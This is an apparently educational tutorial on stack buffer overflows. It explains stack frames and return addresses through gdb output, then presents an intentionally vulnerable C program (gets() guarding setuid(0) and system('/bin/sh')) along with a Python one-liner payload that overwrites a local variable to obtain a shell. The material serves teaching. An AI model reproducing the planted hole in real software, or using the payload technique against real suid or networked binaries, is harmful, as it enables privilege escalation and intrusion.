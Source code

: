 # Buffer overflow

So, as I wrote before this vulnerability allows you to overwrite data.

## Structure within the stack

Suppose that we have a follow program:
```C
#include <stdlib.h>
/*
This program is simple as possible
*/

// Compile with:
// gcc stack-example.c -o stack-example -m32
// -m32 option is just for better explanation

int some_func1(int a, int b, int c, int d, int e, int f){
  int result = some_func2(e, f);
  return a + b + c + d + result;
}

int some_func2(int e, int f){
  int argv[10];
  short ind;
  size_t len = 10;
  for(ind = 0; ind < 10; ind++){
    argv[ind] = ind;
  }
  return e * f;
}

int main(int argc, char *argv[]){
  int a = 1, b = 2, c = 3, d=4, e=5, f=6;
  int result = some_func1(a, b, c, d, e, f);
  return 0;
}
```

When the program starts, the stack contains the argc and argv arguments to the main function (also envp).
When a new function is executed, its arguments are moved either to registers (for example, `rax`, `rbx`, `rcx`, `rdx`, `rdi`, `rsi` in Intel x86-64), or directly onto the stack (via `push 0x1` type of instructions).

Let's take a look at the assembly instructions within main:

```bash
gef➤  disas main
Dump of assembler code for function main:
   0x5655620c <+0>:	lea    ecx,[esp+0x4]
   0x56556210 <+4>:	and    esp,0xfffffff0
   0x56556213 <+7>:	push   DWORD PTR [ecx-0x4]
   0x56556216 <+10>:	push   ebp
   0x56556217 <+11>:	mov    ebp,esp
   0x56556219 <+13>:	push   ecx
   0x5655621a <+14>:	sub    esp,0x24
   0x5655621d <+17>:	call   0x5655627e <__x86.get_pc_thunk.ax>
   0x56556222 <+22>:	add    eax,0x2dde
   0x56556227 <+27>:	mov    DWORD PTR [ebp-0xc],0x1
   0x5655622e <+34>:	mov    DWORD PTR [ebp-0x10],0x2
   0x56556235 <+41>:	mov    DWORD PTR [ebp-0x14],0x3
   0x5655623c <+48>:	mov    DWORD PTR [ebp-0x18],0x4
   0x56556243 <+55>:	mov    DWORD PTR [ebp-0x1c],0x5
   0x5655624a <+62>:	mov    DWORD PTR [ebp-0x20],0x6
   0x56556251 <+69>:	sub    esp,0x8
   0x56556254 <+72>:	push   DWORD PTR [ebp-0x20]
   0x56556257 <+75>:	push   DWORD PTR [ebp-0x1c]
   0x5655625a <+78>:	push   DWORD PTR [ebp-0x18]
   0x5655625d <+81>:	push   DWORD PTR [ebp-0x14]
   0x56556260 <+84>:	push   DWORD PTR [ebp-0x10]
   0x56556263 <+87>:	push   DWORD PTR [ebp-0xc]
   0x56556266 <+90>:	call   0x56556189 <some_func1>
   0x5655626b <+95>:	add    esp,0x20
   0x5655626e <+98>:	mov    DWORD PTR [ebp-0x24],eax
   0x56556271 <+101>:	mov    eax,0x0
   0x56556276 <+106>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x56556279 <+109>:	leave  
   0x5655627a <+110>:	lea    esp,[ecx-0x4]
   0x5655627d <+113>:	ret    
End of assembler dump.
gef➤  

```

You can see that here we are pushing 1, 2, 3, 4, 5, 6 onto the stack at ebp - some offset. `ebp` is just a base pointer that is placed at the bottom of the stack portion of the currently called function.
EBP also provides access to the required address on the stack where the values ​​of the variables are stored. So, when you declare the first variable in a function and set some value for it, for example, int value = 4, you can access it with `ebp - 0x4`. If you have a buffer of integers, for example, 10 in size, you can access it with `ebp - 0x28`. Etc.

Proof of concept:
```bash
gef>  b *some_func1 + 11
gef➤  x/50wx $ebp
0xffffd1d8:	0xffffd228	0x5655626b	0x00000001	0x00000002
0xffffd1e8:	0x00000003	0x00000004	0x00000005	0x00000006
0xffffd1f8:	0x00000000	0x56556222	0xf7fb13fc	0x56559000
0xffffd208:	0x00000006	0x00000005	0x00000004	0x00000003
0xffffd218:	0x00000002	0x00000001	0xf7fe4520	0xffffd240
0xffffd228:	0x00000000	0xf7df1b41	0xf7fb1000	0xf7fb1000
0xffffd238:	0x00000000	0xf7df1b41	0x00000002	0xffffd2d4
0xffffd248:	0xffffd2e0	0xffffd264	0x00000001	0x00000000
0xffffd258:	0xf7fb1000	0xffffffff	0xf7ffd000	0x00000000
0xffffd268:	0xf7fb1000	0xf7fb1000	0x00000000	0xc574ab7c
0xffffd278:	0x84e62d6c	0x00000000	0x00000000	0x00000000
0xffffd288:	0x00000002	0x56556050	0x00000000	0xf7fe9690
0xffffd298:	0xf7fe4520	0x56559000
```

At the address of `0xffffd1d8` - `0xffffd1e8` you can see our values 1, 2, 3, 4, 5, 6. But before them you can see the address `0x5655626b` which is just the address of the next assembly instruction after `some_func1` call. This is a return address, and the `ret` instruction will take it and place it in `eip` register which holds the address of the next instruction to execute.

## Exploitation

So, I wrote a simple program that has a part with a `system` Unix syscall to execute `/bin/sh`. You need to compile it without stack protection.

```C
#include <unistd.h>

//  gcc buffer-overflow.c -o buffer-overflow -fno-stack-protector

int main(int argc, char *argv[]){
  char vuln_buff[100];
  int access = 4321;
  // vulnerable
  gets(vuln_buff);
  if (access == 1234){
    setuid(0);
    system("/bin/sh");
  }
  return 0;
}
```

Also, it used the vulnerable function `gets`. But this is vulnerable because it doesn't check the input size. It may be also a programming mistake with `read`.
Okay, we know the size of buffer, buf if we wouldn't know, then you can see it in the gdb:

```bash
0x0000000000001183 <+26>:	lea    rax,[rbp-0x70]
0x0000000000001187 <+30>:	mov    rdi,rax
0x000000000000118a <+33>:	mov    eax,0x0
0x000000000000118f <+38>:	call   0x1070 <gets@plt>
```

Line `+26` shows you that for some reasons, buffer size in machine code is 112 bytes. So, you can exploit it:

```bash
gcc buf-overflow.c -o buffer-overflow -fno-stack-protector
(python -c 'print "A"*112 + "\xdd\xdd"'; cat) | ./buffer-overflow
```

But, you don't get a shell, cause you overwrote the access variable with `0xdddd`. You can get it with what hex address it compares in the gdb:

```bash
   0x0000000000001194 <+43>:	cmp    DWORD PTR [rbp-0x4],0x4d2
```

So, your final exploit:

```bash
(python -c 'print "A"*112 + "\xd2\x04"'; cat) | ./buffer-overflow
```

And you will get a shell, but you will be you, not the other user or root. Yeah, in this kind of program, the vulnerability is useless for an attacker, but if it has a `suid` bit set(`chmod ug+s buffer-overflow` as another user), he can get a root or another user privilege. But, if a program with some network interactions has this vulnerability, then the attacker can get Remote Code Execution or RCE, even if the program doesn't have a suid on the root or other user. Also, the main reason for RCE here is the condition which gives a shell, but even so, this vulnerability opens a thread to further exploitation.
